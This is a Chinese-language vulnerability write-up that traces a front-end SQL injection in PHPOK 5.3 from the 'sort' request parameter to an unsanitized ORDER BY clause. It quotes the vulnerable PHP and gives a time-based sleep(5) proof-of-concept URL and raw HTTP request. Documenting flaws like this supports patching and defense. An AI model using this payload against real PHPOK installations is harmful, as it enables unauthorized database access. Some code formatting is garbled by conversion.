 ```yaml
---
title: PHPOK 5.3 前台无限制注入
id: zhfly3088
---
```


# PHPOK 5.3 前台无限制注入

## 一、漏洞简介

## 二、漏洞影响

PHPOK 5.3

## 三、复现过程

### 漏洞分析

注入点：framework/model/list.php#arc_all

```
public function arc_all($project,$condition='',$field='*',$offset=0,$psize=0,$orderby='')
    {
        if($this->_total > 100000 && $offset > 10000){
            return $this->_arc_all($project,$condition,$field,$offset,$psize,$orderby);
        }
        $sql  = " SELECT ".$field." FROM ".$this->db->prefix."list l ";
        $sql .= " JOIN ".$this->db->prefix."list_".$project['module']." ext ";
        $sql .= " ON(l.id=ext.id AND l.site_id=ext.site_id AND l.project_id=ext.project_id) ";
        if($project['is_biz']){
            $sql .= " LEFT JOIN ".$this->db->prefix."list_biz b ON(b.id=l.id) ";
        }
        if($project['cate'] && $project['cate_multiple']){
            $sql.= " LEFT JOIN ".$this->db->prefix."list_cate lc ON(l.id=lc.id) ";
        }
        if($condition){
            $sql .= " WHERE ".$condition." ";
        }
        // 拼接$orderby参数
        if($orderby){
            $sql .= " ORDER BY ".$orderby." ";
        }
        if($psize){
            $sql .= " LIMIT ".intval($offset).",".$psize;
        }
        //注入
        $rslist = $this->db->get_all($sql,'id');
        if(!$rslist){
            return false;
        }
        return $this->_arc_list_format($rslist,$project);
    }
回溯寻找调用链：framework/phpok_call.php#_arclist

private function _arclist($rs,$cache_id=’’)

{

// 264行

$orderby = $rs[‘orderby’] ? $rs[‘orderby’] : $project[‘orderby’];

```
// 270行 调用arc_all函数，将$orderby传入
$rslist = $this-&gt;model('list')-&gt;arc_all($project,$condition,$field,$offset,$psize,$orderby); 
``` 
```

回溯：framework/api/project_control.php#load_module

```
private function load_module($rs,$parent_rs='')
{
    // 91行
    $keywords = $this->get("keywords");
    $ext = $this->get("ext");
    $tag = $this->get("tag");
    $uid = $this->get('uid','int');
    $attr = $this->get('attr');
    //价格，支持价格区间
    $price = $this->get('price','float');
    $sort = $this->get('sort');

```
//186行
if($sort){
    $dt['orderby'] = $sort;  // 可控
    $pageurl .= '&amp;sort='.rawurlencode($sort);
    $this-&gt;rlist['sort'] = $sort;
}
// 208行，通过phpok函数动态调用_arclist()函数
    $info = $this-&gt;call-&gt;phpok('_arclist',$dt); 
``` 
```

继续回溯，找谁调用了load_module()：framework/api/project_control.php#index_f

```
public function index_f()
{
    //65行
        if($project["module"]){
        $this->load_module($project,$parent_rs);
    }
} 
```

在控制器里以_f结尾的函数都可以直接被调用

构造poc:

```
http://0-sec.org/api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) 
```

### 漏洞复现

poc

```
GET /api.php?c=project&f=index&token=1234&id=news&sort=(sleep(5)) HTTP/1.1
Host: phpok5_3_147
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux i686) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3833.131 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSION=l87bngd1u307g20iudfmphisu4; XDEBUG_SESSION=PHPSTORM
Connection: close 
```

## 四、参考链接

> https://xz.aliyun.com/t/6831